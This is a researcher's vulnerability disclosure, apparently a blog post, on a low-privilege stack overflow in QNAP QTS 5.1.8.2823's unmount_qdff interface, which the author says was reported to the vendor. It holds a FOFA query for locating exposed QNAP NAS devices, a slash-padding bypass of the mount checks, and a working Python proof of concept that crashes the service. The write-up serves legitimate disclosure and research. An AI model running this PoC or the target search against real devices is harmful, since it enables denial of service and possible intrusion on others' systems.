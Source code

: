```yaml
---
title: Security Research of QTS 5.1 - Low-Authed StackOverflow 
published: true
---
```


就在这周笔者发现了 QTS 操作系统远程控制面板一处低权限用户的 StackOverflow 漏洞，该情况已经汇报给 QNAP 厂商 SRC 并且大范围修复

这个地方不出意外还有其他利用方式和利用链，如果有想进一步了解该漏洞细节、分析该漏洞的读者朋友请联系笔者交流，关于该栈溢出漏洞的利用方式笔者将会后续在下文 Further Research 栏目更新

好久没发了，还是更新一下吧

fofa语法:  
```fofa
app="QNAP-NAS"
```
(粗略估计仅有 1/2 至 1/10 的资产为能复现该漏洞的正常系统，如果需要拿到低权限则估计还需要在该基础上乘以 1/10)

# [](#header-3)A report on the StackOverflow vulnerability of QTS 5.1.8.2823

Vulnerability Product: QTS 5.1.8.2823  
Vulnerability Type: StackOverflow / Further harm  
Vulnerability Authentication Requirement: Low privilege  
Exploitation Method: Remote  

There is a StackOverflow vulnerability in the QTS 5.1.8.2823. When an attacker has a low privilege account of the system, the attacker could upload a qdff and mount it, then call "unmount_qdff" and use some specific methods and parameters to cause a StackOverflow vulnerability

## [](#header-3)THANKS:

Special thanks to the TS-212P3 device provided by the NSFOCUS GeWu IoT Security Lab , and the QTS operating system firmware reverse analysis method on the public forum, which enabled me to discover this vulnerability.

![/image/resources/1.png](/image/resources/qts_8.jpg)

## [](#header-3)AUDIT:

There are several functions mentioned below. Let me first explain their uses:  
sub_10B3F8: The entrance of "unmount_qdff", Here in after referred to as "unmount_qdff"  
sub_10B350: Function used to unmount qdff  
sub_BE8B4: Used to determine whether qdff is loaded and decide whether to call sub_10B350. This is the first function that needs to be bypass  
Delete_QDFF_Share: Used to determine whether the qdff unmount is successful and decide whether to call sprintf. This is the second function that needs to be bypass

There is a sprintf was found in the function: "sub_10B350", and the "sub_10B350" is called by "unmount_qdff", The "unmount_qdff" retrieves the value of parameter "share" and assigns it to the variable a1 and checks whether qdff has been mounted into the system and unmount the qdff 

Further searching for the string, we can find that the code snippet for "unmount_qdff" is located in "share.cgi"

![/image/resources/1.png](/image/resources/qts_12.png)

A standard POST request that can enter "unmount_qdff" interface is as follows

```http
POST /cgi-bin/filemanager/utilRequest.cgi?func=unmount_qdff&sid={YOUR_SID} HTTP/1.1
Host: 88.88.66.100:5000
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 10

share=asdf
```

![/image/resources/1.png](/image/resources/qts_1.png)

You must mount a qdff folder at first, if the name of mounted qdff folder is "asdf", you can bypass the sub_BE8B4(bypass it and step into sub_10B350) and Delete_QDFF_Share(bypass it and step into sprintf) by adding an infinite number of '/' before the "asdf" in parameter "share"(Such as "//////////////////////////////asdf")

In a brief word, if there is a mounted qdff folder named "xxx", you can add any number of '/' in the header of parameter "share" to bypass detection, and the QTS system will mistakenly judge that "//////////////////xxx" is "xxx"

In other words, since the check function only checks whether "asdf\x00" or a string like "////asdf//////" is in the value of the share parameter, it gives us an opportunity to exploit

![/image/resources/1.png](/image/resources/qts_8.png)

Finally execute sprintf and successfully StackOverflow(If you add enough '/', 100000 or 200000, So that it is enough to write the return address of the main running function)

![/image/resources/1.png](/image/resources/qts_2.png)
![/image/resources/1.png](/image/resources/qts_3.png)

Here parameters are formatted into a string by using the sprintf function.

![/image/resources/1.png](/image/resources/qts_9.png)


The premise of all the above operations is that the qdff has been mounted, because in sub_BE8B4 or Delete_QDFF_Share, they will always check whether the qdff is mounted.

![/image/resources/1.png](/image/resources/qts_7.png)
![/image/resources/1.png](/image/resources/qts_10.png)

## [](#header-3)PROVE: 

1. Firstly upload the poc.zip and unzip it(If there is already a mounted qdff, skip this step and modify the value of share)

    [Download poc.zip](/image/resources/poc.zip)
   
    ![/image/resources/1.png](/image/resources/qts_4.png)

2.  mount the qdff(If there is already a mounted qdff, skip this step and modify the value of share)

    ![/image/resources/1.png](/image/resources/qts_5.png)

3.  Get the known current user sid, run belowing code and input the IP、Port、sid

    ```py
    import requests

    host = input("Please input the IP: ")
    port = input("Please input the Port: ")
    port = port if port != '' else '5000'
    sid = input("Please input the sid: ")

    data = 'share=' + '/' * 120000 + 'asdf'

    res = requests.post(
        url = f"http://{host}:{port}/cgi-bin/filemanager/utilRequest.cgi?func=unmount_qdff&sid={sid}", 
        headers = {
            'Host': f'{host}:{port}',
            'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
            'Content-Length': str(len(data))
        },
        data = data
    )

    print('----------------------------------')
    print(res.text)
    print('----------------------------------')

    if 'Internal Server Error' in res.text: 
        print('Success! ')
    else:
        print('Failed, please check if sid has expired')
    ```

    ![/image/resources/1.png](/image/resources/qts_6.png)

## [](#header-3)HARM: 

A low privileged attacker could manipulate the qdff folder name to redirect the current function to the address corresponding to the qdff folder name, Even causing RCE

## [](#header-3)Further Research

Unfortunately, more time is needed to bypass these stack protections, and further analysis of this vulnerability will continue to be shared here

![/image/resources/1.png](/image/resources/qts_11.png)

## [](#header-3)Info

This vulnerability was submitted for research purposes, So after QTS 5.1.8.2823 fixes the vulnerability and issues a CVE number, I will publicly disclose the details of the vulnerability for research purposes regardless of whether there is a bounty or not

discovered by leeya_bug